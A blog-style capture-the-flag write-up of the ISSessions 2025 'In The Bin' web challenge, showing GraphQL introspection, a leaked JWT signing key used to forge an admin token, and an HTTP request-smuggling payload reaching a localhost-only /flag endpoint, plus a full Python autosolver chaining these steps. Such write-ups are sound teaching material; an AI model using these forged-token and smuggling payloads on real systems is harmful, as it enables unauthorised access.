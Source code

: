 ```yaml
---
layout: post
title: ISSessionsCTF - "In The Bin" - GraphQL, JWT, Request Smuggling
---
```


### Introduction & Discovery
I'm writing this post as the ISSessions 2025 CTF comes to its conclusion. There is many great challenges worth writing about, but this write-up will be focused on my solution and first-blood to the KPMG sponsored challenge, `"In The Bin"`. I found this challenge to be the most unique out of the bunch.

![Photo of In The Bin](https://i.imgur.com/tAZUoxy.png)

The description is vague, just a reference to authentication tokens and a link to check out. Visiting the URL greets you with a fairly sterotypical corporate website design for all your construction container needs.

![Photo of home page](https://i.imgur.com/aBomWca.png)

As always, I poked around the website, looking at the HTML, JavaScript, CSS, and HTTP response headers for any interesting information which may help narrow down potential vulnerabilities. From this, I came across two links on the website with GraphQL and API documentation.
![https://issessionsctf-web-kpmg.chals.io/dev-old](https://i.imgur.com/y3x9Z3d.png)
![https://issessionsctf-web-kpmg.chals.io/graphql-docs](https://i.imgur.com/RfO2EF3.png)

Along with this, basic directory enumeration was able to discover two hidden endpoints which return error 403 on GET requests.
1. `/flag`
2. `/protected`

Maybe once we figure out the authentication issues, we can revisit this.

### Investigating GraphQL
I've only submitted two bugs at this point related to breaking GraphQL implementations, so I'm still quite new to it all. I referenced some queries on [HackTricks which can be found here](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html), using introspection to discover schema information with which gave me the following to work with:

{% highlight javascript %}
{
	"__schema": {
		"types": [{
			"fields": [{
				"name": "endpointInfo"
			}, {
				"name": "randomFact"
			}, {
				"name": "secretHint"
			}],
			"name": "Query"
		}, {
			"fields": [{
				"name": "jwtConfig"
			}, {
				"name": "generateToken"
			}, {
				"name": "debugLog"
			}, {
				"name": "generateKey"
			}],
			"name": "Mutation"
		}
		/* ... removed large portion of the response for clarity ... */
	}
}
{% endhighlight %}

This indicated to me that some of the "available queries" such as `passwordReset` and `loginActivity` were not actually available for usage. The most interesting of the bunch was `debugLog`, so I crafted the following HTTP request to be sent to the GraphQL endpoint.

{% highlight http %}
POST /graphql HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/json
Content-Length: 57

{
  "query": "mutation { debugLog(level: \"INFO\") }"
}
{% endhighlight %}

![Debug Log Result](https://i.imgur.com/zLutIWt.png)
The result of this request was huge, including things such as debugging information, authentication information, and general logging. Going over this information my eye was caught by this base64 string highlighted in the image above. Decoding the string gave me the following plaintext:

{% highlight graphql %}
mutation { jwtConfig(key: "SECRET_REQUEST")}
{% endhighlight %}

Of course, I had to run this to see what it gives me:
![Secret request???](https://i.imgur.com/EIiDj3y.png)

Bingo! This looks like a secret key for signing their JWT tokens... Time to learn more about the authentication mentioned in the description.

### Investigating the API and tokens
I tested all the API endpoints, all except one returned the status of 404 with the message `"Route to /${path} is not found"`. Out of the list, `/auth/tokens` was the only one which responded to a GET or POST request. Here is what the result of that looked like.
![TOKENS!](https://i.imgur.com/PV9CAY2.png)

The tokens appear to be broken or expired, with the bottom one belonging to an admin account. The signature of this token includes an `&` symbol which is not valid base64.

From the hint at the start of the JSON response, I decided to try and fix this token by re-signing it with my newly obtained key from the JWT config. [jwt.io](https://jwt.io) is a great resource for modifying JWT tokens, so that is what I used.
![Resigning the token](https://i.imgur.com/DlP7qn0.png)

If you recall from the very start, there is still those pesky `/flag` and `/protected` endpoints which required authentication. I set my newly crafted token using the `Authorization` header, and tried again.

`/flag` returned the following. It appears that it will only accept requests which are coming from the server which this is running on.
![Flag endpoint result](https://i.imgur.com/SPg38MZ.png)

`/protected` on the other hand returned a hint, something about smuggling happening with the containers.
![Protected endpoint result](https://i.imgur.com/84Ge0NH.png)

Embarrasingly to admit, I initally thought this may have been a reference to steganography and "smuggling secrets" from the images found on the homepage. I then come to learn that this was not the case, this message is a reference to [HTTP request smuggling attacks](https://portswigger.net/web-security/request-smuggling).

### Smuggling!
The plan of action is the send a smuggling request to `/protected`, and tricking the server into giving us the response to `/flag`. This part was quite tedious as when you send an invalid request, the webserver will restart and give you a new private key for the JWT token. After quite a bit of time tweaking headers such as content length & trying different options like GET / POST to `/flag`, I was able to craft this payload. I set the `Host` header of the smuggled HTTP request to be `localhost` as a request from internally is required to get a valid response.

{% highlight http %}
POST /protected HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
Content-Length: 215

0

GET /flag HTTP/1.1
Host: localhost
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
{% endhighlight %}

![FLAG FOUND!](https://i.imgur.com/E8cIWXt.png)

There, we got the flag, along with first-blood on the challenge! `bhbureauctf{Sh1pp3d_4nd_D3l1v3r3d_Succ3ssfu11y___}`

I didn't dive too deep into how an HTTP request smuggling attack works. If you are interested in learning more about this rare attack vector, [here is the post written by p4k03n4t0r which I used as reference when creating my payload.](https://github.com/p4k03n4t0r/http-request-smuggling)


### Autosolver by SK
Generously "sk" from the ISSessions CTF Discord wrote a great auto-solver script for the challenge after I shared my solution. I'd like to give a [shoutout to his GitHub](https://github.com/shivakaushal) for this.
![Autosolver](https://i.imgur.com/L5kGuOQ.png)

{% highlight python %}
import requests
import json
import jwt

graphql_url = "https://issessionsctf-web-kpmg.chals.io/graphql"
headers = {
    "Host": "issessionsctf-web-kpmg.chals.io",
    "Content-Type": "application/json",
    "Connection": "keep-alive"
}
data = {
    "query": "mutation { jwtConfig(key: \"SECRET_REQUEST\") }"
}

response = requests.post(graphql_url, json=data, headers=headers)

if response.status_code == 200:
    try:
        response_json = response.json()
        secret_key = response_json.get("jwtConfig", "").split(": ")[-1]
        print("Extracted Secret Key:", secret_key)
        
        # Original JWT payload (use last JWT from https://issessionsctf-web-kpmg.chals.io/auth/tokens)
        payload = {
            "sub": "1234567890",
            "user": "admin",
            "iat": 1516239022
        }
        
        # Resigning the JWT with the extracted secret key
        new_jwt = jwt.encode(payload, secret_key, algorithm="HS256")
        print("Resigned JWT:", new_jwt)
        
        # Use the resigned JWT to access GET /protected
        protected_url = "https://issessionsctf-web-kpmg.chals.io/protected"
        protected_headers = {
            "Authorization": f"Bearer {new_jwt}"
        }
        protected_response = requests.get(protected_url, headers=protected_headers)
        
        print("\n\nProtected Endpoint Response:", protected_response.status_code)
        print(protected_response.text)

        req_smuggling_headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Content-Length": "50",
            "Authorization": f"Bearer {new_jwt}"
        }

        # Smuggling Payload (Chunked Transfer Encoding attack)
        smuggled_body = (
            "0\r\n"  # End of first request
            "\r\n"
            "GET /flag HTTP/1.1\r\n"
            "Host: localhost\r\n"
            f"Authorization: Bearer {new_jwt}\r\n"
        )

        smuggled_response = requests.post(protected_url, headers=req_smuggling_headers, data=smuggled_body)
        print(smuggled_response.text)

    except json.JSONDecodeError:
        print("Failed to parse JSON response")
else:
    print("Request failed with status code:", response.status_code)
    print(response.text)
{% endhighlight %}

![Hack the planet](https://media.tenor.com/K8R7LThju04AAAAC/hack-the-planet.gif)